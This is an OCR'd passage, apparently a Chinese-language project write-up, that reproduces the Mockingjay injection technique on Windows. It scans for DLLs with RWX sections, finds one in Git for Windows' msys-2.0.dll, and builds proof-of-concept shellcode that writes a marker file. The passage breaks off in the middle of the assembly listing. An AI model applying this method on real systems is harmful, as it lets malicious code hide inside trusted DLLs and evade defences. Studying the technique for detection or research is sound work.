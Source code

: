 **结果**: ❌ **System32 中未找到 RWX DLL**

**观察**：
- 现代 Windows 系统 DLL 已移除 RWX 节区
- Microsoft 已修补系统 DLL 的内存权限
- 符合安全最佳实践

**扫描 Git for Windows**:
```bash
$ ./build/rwx_finder.exe "C:\Program Files\Git\usr\bin"

======================================
  RWX Section Finder
  查找包含 RWX 节区的 DLL
======================================

[i] 扫描目录：C:\Program Files\Git\usr\bin

[+] 发现 RWX 节区：C:\Program Files\Git\usr\bin\msys-2.0.dll
    节区名：/4       | 虚拟地址：0x00200000 | 大小：14848 字节 | 特性：0xE0000020

[i] 统计：扫描 74 个 DLL，发现 1 个包含 RWX 节区

[i] 扫描完成！
```

**结果**: ✅ **找到 msys-2.0.dll，包含 RWX 节区**

**关键信息**：
- DLL 路径：`C:\Program Files\Git\usr\bin\msys-2.0.dll`
- 节区名称：`/4`
- 虚拟地址偏移：`0x00200000`
- 节区大小：`14848` 字节（足够容纳 shellcode）
- 节区特性：`0xE0000020` (READ | WRITE | EXECUTE)

---

### 步骤 2: 生成验证 Shellcode

**创建 Mockingjay 专用验证 shellcode**:
```bash
$ gcc -o build/fileverify_shellcode.exe src/fileverify_shellcode.c
$ ./build/fileverify_shellcode.exe

[+] CreateFileA address: 0x00007FFB3F297240
[+] WriteFile address: 0x00007FFB3F297720
[+] CloseHandle address: 0x00007FFB3F296FA0
[+] ExitProcess address: 0x00007FFB3F2818A0

[+] Shellcode generated: 327 bytes
[+] Shellcode written to fileverify_shellcode.bin
```

**Shellcode 逻辑**:
```c
// 动态解析 API 地址（在生成时硬编码）
FARPROC pCreateFileA = GetProcAddress(hKernel32, "CreateFileA");
FARPROC pWriteFile = GetProcAddress(hKernel32, "WriteFile");
FARPROC pCloseHandle = GetProcAddress(hKernel32, "CloseHandle");
FARPROC pExitProcess = GetProcAddress(hKernel32, "ExitProcess");

// Shellcode 行为：
sub rsp, 0x48
lea rcx, [rip+filepath]                    // "C:\Users\Public\mockingjay_verified.txt"
mov rdx, 0x40000000                        // GENERIC_WRITE
xor r8, r8
xor r9, r9
```